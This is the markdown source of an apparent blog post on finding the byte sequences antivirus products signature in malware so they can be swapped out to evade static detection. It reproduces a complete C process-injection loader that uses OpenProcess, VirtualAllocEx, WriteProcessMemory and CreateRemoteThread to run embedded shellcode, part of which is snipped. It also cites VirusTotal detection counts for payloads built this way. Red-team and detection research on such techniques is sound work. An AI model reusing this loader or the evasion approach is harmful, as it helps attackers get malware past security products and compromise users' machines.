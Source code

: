 ```yaml
---
title: Identifying Malicious Bytes in Malware
date: 2024-02-07
draft: false
---
```


This post will cover the process of identifying malicious bytes in malware, malicious bytes referring to known and signatured byte sequences that are often used by security products to identify and detect malware. The goal is to identify these bytes and replace them with benign bytes, in order to evade static detection.

## Introduction
An age old detection for malware has been the use of file hashes or signatures, however these are easily evaded by changing a couple of bytes in the file- which would result in a completely different hash. 

A blog post by [ired.team](https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates) explored the use of Metasploit templates to create payloads using a non-standard template to generate payloads with unique hashes and signatures. However, despite the use of a non-standard template, the payloads were still detected by 36/68 AVs on VirusTotal, including **Windows Defender**.

A solution that they found to be more effective was to develop a custom loader, and load the shellcode into a remote process using `CreateRemoteThread`. 

This approach resulted in significantly reduced detections... with only 8/68 detections...

See: [AV Bypass with Metasploit Templates and Custom Binaries](https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates)

The loader they used was a simple remote shellcode loader using `CreateRemoteThread` with no encryption or obfuscation. The code is as follows:

```c
#include "stdafx.h"
#include "Windows.h"

int main(int argc, char *argv[])
{
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
                [..SNIP...]
		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;

	printf("Injecting to PID: %i", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);

    return 0;
}
```
